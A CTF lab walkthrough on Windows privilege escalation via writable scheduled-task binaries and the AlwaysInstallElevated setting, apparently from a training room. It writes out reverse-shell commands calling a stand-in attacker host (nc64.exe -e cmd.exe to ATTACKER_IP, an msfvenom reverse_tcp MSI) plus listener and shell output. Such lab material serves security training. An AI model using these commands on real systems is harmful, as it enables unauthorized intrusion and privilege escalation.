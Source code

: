# Windows Privilege Escalation: Other Quick Wins

Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. These scenarios are more common in CTF events than in real penetration testing engagements. However, if none of the previously mentioned methods work, you can always revisit these techniques.

---

## Scheduled Tasks

By examining scheduled tasks on the target system, you may find a task that either has a missing binary or uses a binary you can modify.

### Listing Scheduled Tasks

You can list scheduled tasks using the `schtasks` command without any options. To retrieve detailed information about a specific task, use the following command:

```cmd
schtasks /query /tn vulntask /fo list /v
```

Example output:
```
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

Key parameters:
- **Task To Run**: Indicates the executable run by the scheduled task.
- **Run As User**: Specifies the user account used to execute the task.

If the current user can modify or overwrite the "Task To Run" executable, you can control what gets executed by the `taskusr1` user, enabling privilege escalation.

### Checking File Permissions

To check file permissions on the executable, use the `icacls` command:

```cmd
icacls c:\tasks\schtask.bat
```

Example output:
```
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

In this example, the `BUILTIN\Users` group has full access (`F`) to the task's binary. This allows you to modify the `.bat` file and insert a payload. For convenience, `nc64.exe` is located at `C:\tools`.

### Modifying the Task Binary

Replace the `.bat` file content to spawn a reverse shell:

```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Start a listener on the attacker machine:

```bash
nc -lvp 4444
```

When the scheduled task runs, you should receive a reverse shell with `taskusr1` privileges. To manually trigger the task (if permissions allow), use:

```cmd
schtasks /run /tn vulntask
```

Example reverse shell output:
```
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

---

## AlwaysInstallElevated

Windows Installer files (`.msi`) are used to install applications. By default, they run with the privilege level of the user who starts them. However, if misconfigured, they can run with elevated privileges from any user account.

> **Note**: The `AlwaysInstallElevated` method will not work on this room's machine and is included for informational purposes only.

### Checking Registry Values

To exploit this vulnerability, two registry values must be set. Check them using:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Both values must be set for exploitation to be possible.

### Generating a Malicious MSI File

If the registry values are set, generate a malicious `.msi` file using `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Start a Metasploit handler configured for the reverse shell. Transfer the `.msi` file to the target and execute it:

```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

This will provide a reverse shell with elevated privileges.